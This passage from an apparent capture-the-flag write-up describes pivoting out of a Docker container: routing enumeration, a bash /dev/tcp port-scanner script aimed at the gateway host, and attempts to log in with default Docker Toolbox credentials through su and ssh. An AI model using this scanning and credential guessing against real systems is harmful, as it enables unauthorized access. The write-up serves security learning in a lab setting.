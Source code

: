 
## Pivoting to host docker
In order to pivot we might need to root this machine, to do so, we can test:
```bash
postgres@bc56e3cc55e9:/var/lib/postgresql$ sudo -l
sudo -l
bash: sudo: command not found
```
Sudo is not installed, so we can try to enumerate the host's ip:
```bash
postgres@bc56e3cc55e9:/tmp$ route -n
route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         172.17.0.1      0.0.0.0         UG    0      0        0 eth0
172.17.0.0      0.0.0.0         255.255.0.0     U     0      0        0 eth0
```
We can see that the gateway is `172.17.0.1` and assuming a `NAT` network configuration, this must be the host's ip. Now, we can try to manually scan the ports of the host:
```bash
postgres@bc56e3cc55e9:/tmp$ cat portScan
cat portScan
#!/bin/bash

if [ $1 ];then
  ip_addr=$1
  echo -e "\n[*] Testing all open ports on $ip_addr\n"
  for port in `seq 1 65535`; do
    timeout 1 bash -c "echo '' > /dev/tcp/$ip_addr/$port" 2>/dev/null && echo -e "\t[+] Port $port - open" &
  done
  echo -e "\n[*] Tested 65535 Ports"
else
  echo -e "Usage: $0 <ip-address>\n"  
  exit 1
fi
postgres@bc56e3cc55e9:/tmp$ ./portScan 172.17.0.1
./portScan 172.17.0.1

[*] Testing all open ports on 172.17.0.1

	[+] Port 22 - open
	[+] Port 443 - open
	[+] Port 2376 - open
```
Remember, the resource found on the host's ftp server: `docker-toolbox.exe`. We can try to use default credentials for docker-toolbox `docker:tcuser`. As there is no user with name docker in this machine, we can try `tcuser` as root passwd:
```bash
postgres@bc56e3cc55e9:/tmp$ su root
su root
Password: tcuser
su: Authentication **failure**
```
But ended up in failure. Anyway, as port 22 is open for the host `172.17.0.1` and `10.10.10.236`, we can ssh into `docker` user:
```bash
❯ ssh docker@10.10.10.236
The authenticity of host '10.10.10.236 (10.10.10.236)' cant be established.
ED25519 key fingerprint is SHA256:KJAib23keV2B8xvFaxg7e79uztryW+LYX+Wb2qA9u4k.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.236' (ED25519) to the list of known hosts.
docker@10.10.10.236s password: # tcuser
Permission denied, please try again.
```